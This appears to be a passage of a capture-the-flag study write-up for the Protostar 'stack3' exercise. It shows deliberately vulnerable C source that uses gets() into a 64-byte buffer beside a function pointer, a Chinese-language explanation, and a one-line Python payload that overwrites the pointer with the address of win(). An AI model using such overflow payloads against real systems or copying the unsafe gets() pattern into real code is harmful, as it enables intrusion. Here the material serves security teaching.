 ## Stack3

### About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack \(as a prelude to overwriting the saved EIP\)

**Hints**

* both gdb and objdump is your friend you determining where the win\(\) function lies in memory.

This level is at /opt/protostar/bin/stack3

{% code title="stack3.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
{% endcode %}

有个**函数指针**，通过**gets**将**fp的内容**覆盖成**win函数的地址**\(前提是没有开`PIE`\)。

```text
python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
```

## Stack4

### About

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
